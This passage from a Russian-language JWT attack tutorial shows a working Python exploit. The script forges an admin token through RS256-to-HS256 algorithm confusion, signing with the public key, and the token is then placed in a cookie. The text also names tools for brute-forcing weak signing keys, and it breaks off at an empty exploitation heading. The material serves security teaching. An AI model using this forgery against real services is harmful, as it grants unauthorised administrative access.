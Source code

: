 ```python
import jwt

file = open('public.pem', 'r').read() # public key

print(jwt.encode({'username': 'user', 'is_admin': True}, # изменяем значение is_admin
        key=file, 
        algorithm='HS256') # меняем с RS256 на HS256
        .decode())
```

Подставляем полученный токен в cookie

![](img/rshs_3.png)

получаем

![](img/rshs_4.png)


# Bruteforce

Если используемый алгоритм подписи использует слабый ключ, то его можно получить с помощью простого перебора.
Это можно сделать с помощью различных утилит:
- [Hashcat](https://twitter.com/hashcat/status/955154646494040065)
- John the ripper
- [jwt tool](https://github.com/ticarpi/jwt_tool)


## Эксплуатация
